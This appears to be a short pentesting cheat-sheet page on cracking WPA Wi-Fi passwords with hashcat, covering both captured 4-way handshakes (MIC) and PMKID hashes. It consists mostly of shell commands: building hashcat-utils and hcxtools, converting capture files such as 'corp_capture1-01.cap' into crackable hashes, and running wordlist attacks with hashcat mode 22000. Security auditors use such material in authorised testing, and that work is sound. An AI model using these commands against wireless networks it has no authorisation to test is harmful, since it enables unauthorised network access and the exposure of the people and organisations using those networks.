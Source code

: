 [[hashcat]]
* MIC (4-way handshake)
* PMKID (1st packet/handshake)

#### Cracking MIC
```bash
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
make

# convert to crackable format
./cap2hccapx.bin corp_capture1-01.cap mic_to_crack.hccapx
# or https://hashcat.net/cap2hashcat/

# wpa handshake
hashcat -a 0 -m 22000 mic_to_crack.hccapx rock.txt
```
#### Cracking PMKID
https://github.com/ZerBea/hcxtools
```bash
sudo apt install hcxtools
# or
git clone https://github.com/ZerBea/hcxtools.git && cd hcxtools
make && make install
# extract hash
hcxpcapngtool cracking_pmkid.cap -o pmkidhash_corp
hashcat -a 0 -m 22000 pmkidhash_corp rock.txt
```

